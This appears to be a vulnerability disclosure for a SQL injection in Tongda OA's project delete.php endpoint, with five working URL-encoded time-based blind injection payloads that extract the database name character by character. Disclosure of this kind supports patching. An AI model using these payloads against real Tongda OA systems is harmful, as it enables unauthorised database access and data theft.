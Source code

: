 SQL injection vulnerability exists in Tongda OA

version:Versions below v11.10 and v2017

1.
Route: general/project/proj/delete.php

There is an injected parameter: $PROJ_ID_STR

The code here is very concise. When $PROJ_ID_STR is not empty, the parameters are directly spliced ​​into the SQL statement. Since the brackets are closed here, there is a bypass.

![image](https://github.com/Bobjones7/cve/assets/127505769/65055ecb-68a6-46cc-ade4-47f289c10bbe)

2.Payload

We can use Cartesian product blind injection for injection. The following payload can determine that the first character of the database name is t, because it was successfully delayed at 116. The ASCII code 116 also corresponds to the lowercase letter t. By analogy, the database name and any information about the database can be obtained through blind injection.

POC
```
1)%20and%20(substr(DATABASE(),1,1))=char(116)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)%20and(1)=(1
```

![image](https://github.com/Bobjones7/cve/assets/127505769/0f9216da-934f-495a-a417-8579938ab250)

Intercept the second digit of the database through blind injection, and determine the second digit as the letter d through the delay time

```
1)%20and%20(substr(DATABASE(),2,1))=char(100)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)%20and(1)=(1
```

The third digit is the character _

```
1)%20and%20(substr(DATABASE(),3,1))=char(95)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)%20and(1)=(1
```
![image](https://github.com/Bobjones7/cve/assets/127505769/3ed54e93-861c-45c0-aba9-ae7f4aad8306)

The fourth digit is the character o

```
1)%20and%20(substr(DATABASE(),4,1))=char(111)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)%20and(1)=(1
```
![image](https://github.com/Bobjones7/cve/assets/127505769/00c652f1-53ae-439a-bea1-dcd14ad97497)

The fifth digit is the character a
```
1)%20and%20(substr(DATABASE(),5,1))=char(97)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)%20and(1)=(1
```
![image](https://github.com/Bobjones7/cve/assets/127505769/0e4769e2-01ce-4c40-81d6-7d822630c9e1)

Then through blind injection, you can determine that the database name is: td_oa


